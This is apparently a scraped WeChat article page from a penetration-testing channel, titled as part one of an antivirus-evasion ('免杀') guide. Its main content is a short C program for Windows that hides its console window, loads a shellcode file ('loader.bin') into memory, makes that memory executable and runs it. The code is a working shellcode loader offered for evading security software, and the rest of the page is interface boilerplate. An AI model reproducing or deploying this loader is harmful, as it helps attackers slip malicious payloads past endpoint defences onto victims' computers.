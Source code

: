     
    
    #include<stdio.h>  
    #include<windows.h>  
    #pragma comment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"" )  
    int main()  
    {  
        HANDLE bin = CreateFileA("loader.bin", GENERIC_READ, NULL, NULL, OPEN_EXISTING, NULL, NULL);  
        DWORD64 bin_size = GetFileSize(bin, NULL);  
        LPVOID bin_bytes = VirtualAlloc(NULL, bin_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);  
        DWORD out_size = 0;  
        ReadFile(bin, bin_bytes, bin_size, &out_size, NULL);  
        DWORD tmp;  
        VirtualProtect(bin_bytes, sizeof(bin_bytes), PAGE_EXECUTE_READWRITE, &tmp);  
        ((void(*)())bin_bytes)();  
        CloseHandle(bin);  
        return 0;  
    }  
    

  

  

文章首发于：渗透测试安全攻防

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 降本增效式免杀指南（一）

原创 coleak  [ 渗透测试安全攻防 ](javascript:void\(0\);)

轻触阅读原文

![]()

渗透测试安全攻防

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

